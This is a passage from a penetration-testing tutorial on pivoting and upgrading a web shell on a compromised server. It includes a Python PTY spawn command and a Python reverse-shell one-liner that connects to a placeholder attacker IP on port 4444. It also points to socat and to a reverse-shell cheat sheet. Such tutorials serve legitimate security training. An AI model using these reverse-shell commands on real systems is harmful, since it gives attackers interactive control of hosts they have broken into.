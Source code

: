 
    if [ $# = 0 ] ; then
        echo "  usage:"
        echo "      proxyresolv <hostname> "
        exit
    fi

</div>

Beutifying your web shell
-------------------------

This section is not directly related to either pivoting or tunneling but
instead describes a way of simplifying your work when developing attack
into the internal network. Often, using a web-shell is rather tedious,
especially when using programs that expect an interactive command
interface. Most likely you will use some workarounds to performs simple
tasks, such as passing password to sudo/su or just editing a file. I’m
not a big fan of torturing myself, so when there’s an oportunity to
escalate the web-shell to an interactive shell, I do so :) I won’t cover
stuff like launching semi-interactive shell using bash/perl/python etc.
There’s a ton of info on doing so. Check out this reverse shell cheat
sheet -
<http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>.

### Python PTY shell

An upgrade from a regular semi-interactive shell. You can execute the
following command in your existing shell:

<div>

    python -c 'import pty; pty.spawn("/bin/bash")'

</div>

Or initiate reverse connection:

<div>

    python -c 'import socket,subprocess,os;\
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\
    s.connect(("<attackers_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);\
    os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

</div>

### Socat

Netcat on steroids! Seriously tho, go check this
[tool’s](http://www.dest-unreach.org/socat/) manual `man socat` and
you’d be amazed what you can do with this tool regarding tunneling.
Among other things it can spawn a fully interactive shell, even better
than the aforementioned python-pty. The downside is that you most
probably will have to build/install this tool on the target server as it
is not a default utility in most unix-like distributions.
